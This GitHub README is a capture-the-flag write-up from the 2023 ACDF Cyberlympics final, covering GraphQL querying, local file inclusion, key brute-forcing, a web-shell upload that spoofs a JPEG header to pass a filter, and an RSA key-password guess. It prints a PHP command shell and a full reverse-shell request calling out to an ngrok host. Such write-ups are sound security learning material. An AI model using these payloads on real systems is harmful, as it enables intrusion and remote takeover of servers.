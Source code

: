 ![Visitors](https://visitor-badge.laobi.icu/badge?page_id=cyberpoul.Final_ACDF_CTF_2023)
<h1> Final Africa Cyber Defense Forums Cyberlympics CTF 2023 </h1>

Team: RedTeam-TG
<br>Id: opscur

I'll give the solutions to some of the challenges that I solved but you can check the full writeups of the team here:
<br>
https://hackmd.io/@RedTeamTG/acdfctf-final-2023
</details>

<br>
<details><summary>Solutions :</summary>
  
- Grandline:

<p align="center"> <img src="https://github.com/Assa228/Final_ACDF_CTF_2023/blob/main/images/7.png" alt="img"></p>

This is an injection of graphql code, we even have a console which displays the results of the commands

First of all, we are going to do the enumeration in order to see the functions and methods that are accessible. the following payload does the trick:

<p align="center"> <img src="https://github.com/Assa228/Final_ACDF_CTF_2023/blob/main/images/1.png" alt="img"></p>

we can notice that we have an interesting function called "flags" with the id, author, content and flag parameters.
Let's try to query the id 1 of the flags function. here I specified the content and flag parameters.

<p align="center"> <img src="https://github.com/Assa228/Final_ACDF_CTF_2023/blob/main/images/2.png" alt="img"></p>


We notice that we have a return with the following content: "Why don't you dig harder"; the rest becomes logical we must identify the id which contains our flag. I first tried id 2 then id 3 which turned out to be the right one.

<p align="center"> <img src="https://github.com/Assa228/Final_ACDF_CTF_2023/blob/main/images/3.png" alt="img"></p>

Flag: acdfCTF{L3t_try_s0m3_Graph_0ut}


- Image Lookup:

<p align="center"> <img src="https://github.com/Assa228/Final_ACDF_CTF_2023/blob/main/images/6.png" alt="img"></p>

This one is an easy lfi web challenge you just had to call the flag file with the following payload: "file:///flag.txt" , paying attention to encoding the characters /
here is the query that I used to get the flag

```http://16.170.230.246/index.php?url=file%3a%2f%2f%2fflag.txt```

Unfortunately the flag is no longer accessible on the server


- Konoha:

<p align="center"> <img src="https://github.com/Assa228/Final_ACDF_CTF_2023/blob/main/images/4.png" alt="img"></p>

we have a source.php file. let's try to analyze it:
```python
<?php
$secretFilePath = '/app/Sup3rs3cr3tFlag.txt';

$secretKey = 'Kismet-Abzee-Berrywuxxxxx';

$requestedFile = isset($_GET['file']) ? $_GET['file'] : '';

$providedKey = isset($_GET['key']) ? $_GET['key'] : '';

$decodedFile = urldecode($requestedFile);

if ($providedKey !== $secretKey) {
    header("HTTP/1.0 403 Forbidden");
    echo "Access denied!";
    exit;
}

if ($decodedFile === 'Sup3rs3cr3tFlag.txt') {
    $secretContent = file_get_contents($secretFilePath);
    echo $secretContent;
} else {
    header("HTTP/1.0 403 Forbidden");
    echo "Access denied!";
}
?>
```
after reading we see that the source.php script gives us the possibility of making GET type requests with the "file" and "key" parameters. key is then the secret code allowing access to the file and file must contain the name of the file. 
```
if ($decodedFile === 'Sup3rs3cr3tFlag.txt') {
     $secretContent = file_get_contents($secretFilePath);
     echo $secretContent;
}
```
the previous lines check that the file name corresponds to Sup3rs3cr3tFlag.txt and displays this secret message to us 
```echo $secretContent;```
what could be simpler we have the name of the file and the key to access it.
be careful in the key value we have hidden characters (5 characters x) 'Kismet-Abzee-Berrywuxxxxx'.
It is therefore necessary to brute force the missing x characters. the hint gave us part of the missing characters, we just had to brute force the rest to obtain the flag.
Ps: apparently the 5 missing characters x could be found in the source code of the application personally I didn't solve it like that.
here is the final request to have the flag:

```http://51.20.91.159/source.php?file=Sup3rs3cr3tFlag.txt&key=Kismet-Abzee-Berrywuzh3r3```

The flag has unfortunately been removed from the server. I unfortunately didn't take a picture when I solved it but the previous request still exact..

- DPO Agba:

<p align="center"> <img src="https://github.com/Assa228/Final_ACDF_CTF_2023/blob/main/images/8.png" alt="img"></p>

the images from the web server are no longer accessible I'm going to do a writeup for you a little blindly lol, I would have liked to add more illustrations but hey it doesn't matter, let's go.

The first step was to decode the obfuscated data in the source code. Cyberchef made it possible:

<p align="center"> <img src="https://github.com/Assa228/Final_ACDF_CTF_2023/blob/main/images/9.png" alt="img"></p>

when we analyze the result we can see that we have a way to upload images to the server using the upload.php file. What better way to have a shell!.
Unfortunately when we tried to upload our image, we have restrictions that prevent us from uploading php files or anything other than images and in addition the file size must not exceed more than 35 bytes. Here we need to bypass these restrictions.

We can trick the filter into thinking the .php file I want to upload is actually a .jpeg file. But I had to modify our file's header like this.

our initial payload: ```<?php system($_GET['cmd']); ?>```

but to make that work we have to change the header to that of a .jpeg file. Checking it up online I found this “FF D8 FF EE”. So, let’s change the header to that; hexed.it does the trick.

<p align="center"> <img src="https://github.com/Assa228/Final_ACDF_CTF_2023/blob/main/images/10.png" alt="img"></p>

our final image content should look like this: ```ÿØÿî<?php system($_GET['cmd']); ?>```

Now, that we have successfully changed the header we can upload our file "cmd.php"

after that I just launched a reverse shell on my computer using a TCP connection with an ngrock server. So I was able to have a shell. The next step was to look for the flag on the server. I spent a lot of time looking for the flag before finding it one of the files on the server. 

Here the payload that I used to get the shell:<br>
```http://16.170.159.222/images/cmd.php?cmd=php+-r+'$sock%3dfsockopen("tcp://4.tcp.ngrok.io",16205)%3bexec("sh+<%263+>%263+2>%263")%3b'```

- What's going on :
    
![](https://hackmd.io/_uploads/SkDg9H3z6.png)

This is an RSA challenge, with a bit of guessing. we have an encoded file which contains the flag. The encoded file was provided with a private key to unlock the flag. The difficulty here is that the key is password protected. He made several attempts before coming across the password which was "password". We used cyberchief to decipher the flag as you see below.
    
![](https://hackmd.io/_uploads/SJH2YB3fT.png)

</details>
